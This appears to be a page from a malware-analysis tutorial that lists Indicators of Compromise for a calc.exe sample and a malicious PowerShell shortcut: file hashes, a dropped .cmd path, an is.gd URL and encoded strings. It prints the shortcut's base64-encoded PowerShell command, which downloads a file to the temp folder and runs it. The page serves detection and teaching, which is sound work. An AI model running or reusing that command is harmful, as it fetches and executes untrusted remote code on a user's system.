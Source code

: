 ```yaml
---
title: "Indicators of Compromise"
description: "Introduction to IOCs and identifying IOCs"
sidebar:
  order: 33
---
```



## What is Indicators of Compromise ( IOCs )?

An Indicator of Compromise (IOC) is evidence that suggests a network or endpoint has been breached. It is a sign that an attack, such as malware infection, credential theft, or data exfiltration, has already occurred.

Let's list the Indicators of Compromise for both of the samples that we have seen so far.

## IOCs for calc.exe

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `calc.exe`                                                       |
| MD5      | 2f9fdad776d8626f2ce8625211831e91                                 |
| SHA256   | 9b66a8ea0f1c64965b06e7a45afbe56f2d4e6d5ef65f32446defccbebe730813 |

## IOCs for Windows Powershell.lnk

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `Windows Powershell.lnk`                                         |
| MD5      | 02e1f1ea7dc301147433623d31e5a294                                 |
| SHA256   | de6d56ae01166232f2cb403c86d2ddf59d7654510100971fcd0fe59a3a8e9944 |

### Signatures related to the dropped file

| Key       | Value                                                            |
| --------- | ---------------------------------------------------------------- |
| Filename  | `.cmd`                                                           |
| File Path | `%TEMP%\.cmd`                                                    |
| MD5       | a07fcb39b340ad8dea993a5f5c4d9064                                 |
| SHA256    | EEB86BDD38DC4FA93046F3CC0E443018518B81828D34E5D1E75F3BD9AAB0F8A7 |

### HTTP Requests

- `http://is.gd/jwr7JD`

### Suspicious Strings

Remember the first powershell command that is executed with a base64 encoded string as the argument which contains the URL to the staged file, this base64 encoded string can be found in the properties of the `Windows Powershell.lnk` file as shown in the following image.

![alt text](assets/image-159.png)

The full target value that is marked in the above image is as follows:

<Code
  code="C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA="
  lang="plaintext"
  title="Target Value"
  wrap
/>

This is why when we double click on the shortcut file, that powershell command is executed. This string can also be found by executing the strings command on this file as shown in the following image.

![alt text](assets/image-158.png)

This base64 encoded string is unique to this malware and can be used as an IOC.

<Code
  code="aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA="
  lang="plaintext"
  title="Base64 Encoded String"
  wrap
/>
